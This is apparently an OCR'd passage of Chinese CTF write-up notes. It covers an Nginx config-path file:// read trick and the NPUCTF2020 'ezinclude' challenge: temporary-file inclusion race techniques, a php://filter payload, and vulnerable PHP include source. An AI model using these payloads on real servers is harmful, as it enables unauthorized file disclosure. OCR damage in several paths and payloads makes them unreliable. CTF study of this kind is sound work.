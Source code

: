 Nginx 重要文件目录

-   配置文件存放目录：/etc/nginx
-   主要配置文件：/etc/nginx/conf/nginx.conf
-   管理脚本：/usr/lib64/systemd/system/nginx.service
-   模块：/usr/lisb64/nginx/modules
-   应用程序：/usr/sbin/nginx
-   程序默认存放位置：/usr/share/nginx/html
-   日志默认存放位置：/var/log/nginx
-   Nginx配置文件：/usr/local/nginx/conf/nginx.conf

```
file://suctf.cℭ/usr/local/nginx/conf/nginx.conf
```

找一下flag就行了

## [NPUCTF2020]ezinclude

>   https://www.freebuf.com/vuls/202819.html
>
>   https://blog.csdn.net/qq_52737372/article/details/117789229

临时文件包含：

1.  PHP版本<7.2，segment fault特性，向PHP发送含有文件区块的数据包时，让PHP异常崩溃退出，POST的临时文件就会被保留
2.  条件竞争：利用session.upload_progress进行session文件包含
3.  条件竞争：利用能访问的phpinfo页面，对其一次发送大量数据造成临时文件没有及时被删除

```
<!--md5($secret.$name)===$pass -->
```

直接给pass为cookie中的hash

发现一个伪flag的东西：

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/woofers/resource=flflflflag.ph
```

```html
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_åºé¢äºº_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
	die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>

```
